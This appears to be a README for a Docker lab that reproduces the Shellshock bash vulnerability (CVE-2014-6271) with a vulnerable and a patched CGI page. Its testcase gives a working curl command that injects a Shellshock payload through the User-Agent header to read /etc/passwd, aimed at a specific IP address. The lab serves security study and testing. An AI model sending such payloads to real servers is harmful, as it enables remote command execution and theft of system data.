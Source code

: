# Shellshock Remote Command Injection (CVE-2014-6271)

[中文版本(Chinese version)](README.zh-cn.md)

Build and run the vulnerable environment：

```
docker-compose build
docker-compose up -d
```

When you visit `http://your-ip/` you should see two files:

 - safe.cgi
 - victim.cgi

safe.cgi generated by the latest version of bash, and victim.cgi is the page generated by bash4.3 which is vulnerable to shellshock.

We can send include our payload in the user-agent string when visiting victim.cgi and the command is executed successfully:

![](1.png)

The same request sent to safe.cgi is unaffected:

![](2.png)

## Testcase


```
docker run --rm curlimages/curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://207.180.241.66:60001/victim.cgi
```